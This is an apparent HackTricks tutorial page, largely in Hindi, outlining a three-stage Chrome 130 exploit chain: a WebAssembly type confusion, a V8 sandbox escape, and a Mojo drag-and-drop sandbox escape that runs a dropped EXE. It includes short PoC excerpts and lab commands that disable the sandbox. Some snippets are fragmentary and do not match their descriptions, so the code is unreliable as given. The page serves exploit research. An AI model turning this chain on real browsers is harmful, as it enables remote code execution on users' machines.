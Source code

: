 # Chrome Exploiting

{{#include ../banners/hacktricks-training.md}}

> यह पृष्ठ Google Chrome 130 के खिलाफ एक आधुनिक "पूर्ण-श्रृंखला" शोषण कार्यप्रवाह का एक उच्च-स्तरीय लेकिन **व्यावहारिक** अवलोकन प्रदान करता है, जो **“101 Chrome Exploitation”** (भाग-0 — प्रस्तावना) पर आधारित है।  
> लक्ष्य यह है कि पेंटेस्टर्स और शोषण-डेवलपर्स को अपनी स्वयं की अनुसंधान के लिए तकनीकों को पुन: उत्पन्न या अनुकूलित करने के लिए आवश्यक न्यूनतम पृष्ठभूमि प्रदान की जाए।

## 1. Chrome Architecture Recap
हमले की सतह को समझने के लिए यह जानना आवश्यक है कि कोड कहाँ निष्पादित होता है और कौन से सैंडबॉक्स लागू होते हैं।
```
+-------------------------------------------------------------------------+
|                             Chrome Browser                              |
|                                                                         |
|  +----------------------------+      +-----------------------------+    |
|  |      Renderer Process      |      |    Browser/main Process     |    |
|  |  [No direct OS access]     |      |  [OS access]                |    |
|  |  +----------------------+   |      |                             |    |
|  |  |    V8 Sandbox        |   |      |                             |    |
|  |  |  [JavaScript / Wasm] |   |      |                             |    |
|  |  +----------------------+   |      |                             |    |
|  +----------------------------+      +-----------------------------+    |
|               |           IPC/Mojo              |                       |
|               V                                    |                     |
|  +----------------------------+                   |                     |
|  |        GPU Process         |                   |                     |
|  |  [Restricted OS access]    |                   |                     |
|  +----------------------------+                   |                     |
+-------------------------------------------------------------------------+
```
Layered defence-in-depth:

* **V8 sandbox** (Isolate): मेमोरी अनुमतियाँ मनमाने पढ़ने/लिखने को रोकने के लिए सीमित हैं JITed JS / Wasm से।
* **Renderer ↔ Browser split** सुनिश्चित किया गया है **Mojo/IPC** संदेश पासिंग के माध्यम से; renderer के पास *कोई* मूल FS/नेटवर्क पहुंच नहीं है।
* **OS sandboxes** प्रत्येक प्रक्रिया को और सीमित करते हैं (Windows Integrity Levels / `seccomp-bpf` / macOS sandbox profiles)।

एक *remote* हमलावर को इसलिए **तीन** लगातार प्राइमिटिव्स की आवश्यकता है:

1. V8 के अंदर मेमोरी भ्रष्टाचार ताकि **V8 heap के अंदर मनमाना RW प्राप्त किया जा सके**।
2. एक दूसरा बग जो हमलावर को **V8 sandbox से पूर्ण renderer मेमोरी में भागने** की अनुमति देता है।
3. एक अंतिम sandbox-escape (अक्सर लॉजिक के बजाय मेमोरी भ्रष्टाचार) को कोड निष्पादित करने के लिए **Chrome OS sandbox के बाहर**।

---

## 2. Stage 1 – WebAssembly Type-Confusion (CVE-2025-0291)

TurboFan के **Turboshaft** ऑप्टिमाइजेशन में एक दोष **WasmGC संदर्भ प्रकारों** को गलत वर्गीकृत करता है जब मान एक *एकल बेसिक ब्लॉक लूप* के अंदर उत्पन्न और उपभोग किया जाता है।

प्रभाव:
* कंपाइलर **प्रकार-चेक को छोड़ देता है**, एक *संदर्भ* (`externref/anyref`) को *int64* के रूप में मानते हुए।
* तैयार किया गया Wasm एक JS ऑब्जेक्ट हेडर को हमलावर-नियंत्रित डेटा के साथ ओवरलैप करने की अनुमति देता है → <code>addrOf()</code> & <code>fakeObj()</code> **AAW / AAR प्राइमिटिव्स**।

Minimal PoC (excerpt):
```WebAssembly
(module
(type $t0 (func (param externref) (result externref)))
(func $f (param $p externref) (result externref)
(local $l externref)
block $exit
loop $loop
local.get $p      ;; value with real ref-type
;; compiler incorrectly re-uses it as int64 in the same block
br_if $exit       ;; exit condition keeps us single-block
br   $loop
end
end)
(export "f" (func $f)))
```
ट्रिगर ऑप्टिमाइजेशन और JS से स्प्रे ऑब्जेक्ट्स:
```js
const wasmMod = new WebAssembly.Module(bytes);
const wasmInst = new WebAssembly.Instance(wasmMod);
const f = wasmInst.exports.f;

for (let i = 0; i < 1e5; ++i) f({});   // warm-up for JIT

// primitives
let victim   = {m: 13.37};
let fake     = arbitrary_data_backed_typedarray;
let addrVict = addrOf(victim);
```
Outcome: **मनमाने पढ़ने/लिखने की क्षमता V8 के भीतर**।

---

## 3. स्टेज 2 – V8 सैंडबॉक्स से बाहर निकलना (issue 379140430)

जब एक Wasm फ़ंक्शन को टियर-अप-कंपाइल किया जाता है, तो एक **JS ↔ Wasm wrapper** उत्पन्न होता है। एक सिग्नेचर-मिसमैच बग के कारण wrapper एक विश्वसनीय **`Tuple2`** ऑब्जेक्ट के अंत से परे लिखता है जब Wasm फ़ंक्शन को *स्टैक पर रहते हुए* फिर से ऑप्टिमाइज़ किया जाता है।

`Tuple2` ऑब्जेक्ट के 2 × 64-बिट फ़ील्ड को ओवरराइट करने से **Renderer प्रक्रिया के भीतर किसी भी पते पर पढ़ने/लिखने की क्षमता** मिलती है, जो V8 सैंडबॉक्स को प्रभावी ढंग से बायपास करती है।

शोषण के मुख्य चरण:
1. फ़ंक्शन को **Tier-Up** स्थिति में लाना टर्बोफैन/बेसलाइन कोड को वैकल्पिक करके।
2. स्टैक पर एक संदर्भ रखते हुए टियर-अप को ट्रिगर करना (`Function.prototype.apply`)।
3. निकटवर्ती `Tuple2` को खोजने और भ्रष्ट करने के लिए स्टेज-1 AAR/AAW का उपयोग करना।

Wrapper पहचान:
```js
function wrapperGen(arg) {
return f(arg);
}
%WasmTierUpFunction(f);          // force tier-up (internals-only flag)
wrapperGen(0x1337n);
```
After corruption we possess a fully-featured **renderer R/W primitive**.

---

## 4. Stage 3 – Renderer → OS Sandbox Escape (CVE-2024-11114)

The **Mojo** IPC interface `blink.mojom.DragService.startDragging()` can be called from the Renderer with *partially trusted* parameters.  By crafting a `DragData` structure pointing to an **arbitrary file path** the renderer convinces the browser to perform a *native* drag-and-drop **outside the renderer sandbox**.

इसका दुरुपयोग करते हुए हम प्रोग्रामेटिकली एक दुर्भावनापूर्ण EXE (जो पहले एक विश्व-लेखनीय स्थान पर रखा गया था) को डेस्कटॉप पर “खींच” सकते हैं, जहाँ Windows स्वचालित रूप से कुछ फ़ाइल-प्रकारों को छोड़ने पर निष्पादित करता है।

Example (simplified):
```js
const payloadPath = "C:\\Users\\Public\\explorer.exe";

chrome.webview.postMessage({
type: "DragStart",
data: {
title: "MyFile",
file_path: payloadPath,
mime_type: "application/x-msdownload"
}
});
```
कोई अतिरिक्त मेमोरी भ्रष्टाचार आवश्यक नहीं है - **लॉजिक फ्लॉ** हमें उपयोगकर्ता के विशेषाधिकारों के साथ मनमाने फ़ाइल निष्पादन की अनुमति देता है।

---

## 5. पूर्ण श्रृंखला प्रवाह

1. **उपयोगकर्ता** दुर्भावनापूर्ण वेबपृष्ठ पर जाता है।
2. **चरण 1**: Wasm मॉड्यूल CVE-2025-0291 का दुरुपयोग करता है → V8 हीप AAR/AAW।
3. **चरण 2**: व्रैपर असंगति `Tuple2` को भ्रष्ट करता है → V8 सैंडबॉक्स से बाहर निकलता है।
4. **चरण 3**: `startDragging()` IPC → OS सैंडबॉक्स से बाहर निकलता है और पेलोड निष्पादित करता है।

परिणाम: **रिमोट कोड निष्पादन (RCE)** होस्ट पर (Chrome 130, Windows/Linux/macOS)।

---

## 6. प्रयोगशाला और डिबगिंग सेटअप
```bash
# Spin-up local HTTP server w/ PoCs
npm i -g http-server
git clone https://github.com/Petitoto/chromium-exploit-dev
cd chromium-exploit-dev
http-server -p 8000 -c -1

# Windows kernel debugging
"C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\windbgx.exe" -symbolpath srv*C:\symbols*https://msdl.microsoft.com/download/symbols
```
Chrome के *development* बिल्ड को लॉन्च करते समय उपयोगी फ्लैग:
```bash
chrome.exe --no-sandbox --disable-gpu --single-process --js-flags="--allow-natives-syntax"
```
---

## Takeaways

* **WebAssembly JIT बग** एक विश्वसनीय प्रवेश बिंदु बने रहते हैं - प्रकार प्रणाली अभी भी युवा है।
* V8 के अंदर एक दूसरा मेमोरी-करप्शन बग प्राप्त करना (जैसे कि wrapper mismatch) **V8-sandbox escape** को बहुत सरल बनाता है।
* विशेष Mojo IPC इंटरफेस में लॉजिक-स्तरीय कमजोरियाँ अक्सर **अंतिम sandbox escape** के लिए पर्याप्त होती हैं - *non-memory* बग पर नज़र रखें।

## References
* [101 Chrome Exploitation — Part 0 (Preface)](https://opzero.ru/en/press/101-chrome-exploitation-part-0-preface/)
* [Chromium security architecture](https://chromium.org/developers/design-documents/security)
{{#include ../banners/hacktricks-training.md}}
